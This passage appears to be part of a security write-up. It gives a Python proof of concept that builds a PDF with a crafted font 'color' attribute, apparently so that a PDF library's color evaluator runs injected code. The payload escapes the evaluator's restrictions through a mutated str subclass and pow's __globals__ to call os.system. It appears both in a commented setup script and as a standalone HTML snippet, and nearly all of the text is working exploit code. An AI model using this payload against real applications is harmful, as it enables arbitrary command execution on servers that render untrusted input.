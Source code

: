 ```

def build_document(document, content, **props):
    """ Build pdf document based on elements added in `content`"""
    document.build(content, **props)

doc = get_document_template(stream_file)
#
# THE INJECTED PYTHON CODE THAT IS PASSED TO THE COLOR EVALUATOR
#[
#    [
#        getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited')
#        for Word in [
#            orgTypeFun(
#                'Word',
#                (str,),
#                {
#                    'mutated': 1,
#                    'startswith': lambda self, x: False,
#                    '__eq__': lambda self, x: self.mutate()
#                    and self.mutated < 0
#                    and str(self) == x,
#                    'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)},
#                    '__hash__': lambda self: hash(str(self)),
#                },
#            )
#        ]
#    ]
#    for orgTypeFun in [type(type(1))]
#]

add_paragraph("""
            <para>
              <font color="[ [ getattr(pow,Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">
                exploit
                </font>
            </para>""", content)
build_document(doc, content)

```

Most of that is setting it up, the exploit itself this HTML that’s passed to the library:

```

<para>
              <font color="[ [ getattr(pow,Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'">
                exploit
                </font>
            </para>

```
